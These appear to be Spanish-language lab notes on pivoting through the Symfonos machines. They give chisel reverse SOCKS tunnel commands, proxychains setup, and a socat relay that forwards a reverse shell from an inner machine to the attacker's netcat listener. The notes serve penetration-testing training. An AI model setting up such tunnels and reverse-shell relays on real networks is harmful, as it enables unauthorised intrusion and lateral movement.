 [[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
En la máquina 2, lo que debemos hacer es enviar el tráfico de esta máquina a la de atacante, y para ello usaremos chisel:
![[Pasted image 20240615204122.png]]

![[Pasted image 20240615204125.png]]

Ahora tenemos que ponernos en la máquina atacante con chisel a modo de servidor:
```bash
./chisel server --reverse -p 1234
```

![[Pasted image 20240615204130.png]]

Y ahora en la máquina 1 ejecutamos el chisel en modo cliente diciendo que pase por el puerto 1234 todo el tráfico remoto:
![[Pasted image 20240615204230.png]]

```bash
./chisel client 10.10.10.12:1234 R:socks
```

![[Pasted image 20240615204236.png]]

Y habremos recibido esta conexión también en la máquina atacante:
![[Pasted image 20240615204240.png]]

En la máquina 2, vamos a crear un servidor con python por el puerto 80, que trataremos de visualizar desde la máquina atacante:
![[Pasted image 20240615204245.png]]

![[Pasted image 20240615204248.png]]

Ahora que tenemos el tunel creado que nos une desde la máquina atacante a la máquina 2, debemos de configurar el proxychain de esta forma:
![[Pasted image 20240615204253.png]]

Al ser la primera máquina que conectamos, tenemos que dejar la primera línea sin comentar y la segunda comentada:
![[Pasted image 20240615204257.png]]

Y al final del todo tenemos que dejar esta línea:
![[Pasted image 20240615204317.png]]

Y en el navegador ponemos el tunel:
![[Pasted image 20240615204320.png]]

De tal forma que desde el navegador llegamos correctamente al puerto 80 de la máquina 2:
![[Pasted image 20240615204326.png]]

Ahora, si queremos llegar a esta máquina desde el terminal, debemos de especificar que queremos que el tráfico pase por el proxychains de la siguiente forma:
![[Pasted image 20240615204344.png]]

No obstante, si queremos llegar a esta máquina entablando una reverse shell, veremos que da error:
![[Pasted image 20240615204353.png]]

Esto error ocurre porque tenemos que habilitar socat en la máquina 1 para que pueda haber comunicación entre la máquina 2 y la atacante, por tanto, para seguir avanzando, tenemos que ejecutar el socat dentro de la máquina 1, de tal forma que diremos que el resto del port forwarding que nos llegue lo envíe a la máquina atacante, por tanto lo descargamos:
![[Pasted image 20240615204410.png]]

![[Pasted image 20240615204415.png]]

Nos compartimos el socat con la máquina 1:
![[Pasted image 20240615204419.png]]

![[Pasted image 20240615204422.png]]

Y ahora ejecutamos socat de esta forma, donde diremos que todo lo que reciba la máquina1 por el puerto 1111 de la interfaz 20.20.20.13 lo envíe a la máquina kali  por el puerto 111, que es donde tendremos netcat esperando conexiones:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111
```

![[Pasted image 20240615204429.png]]

![[Pasted image 20240615204434.png]]

Y ahora si con la máquina 2 enviamos la reverse shell, debería de funcionar:

![[Pasted image 20240615204436.png]]


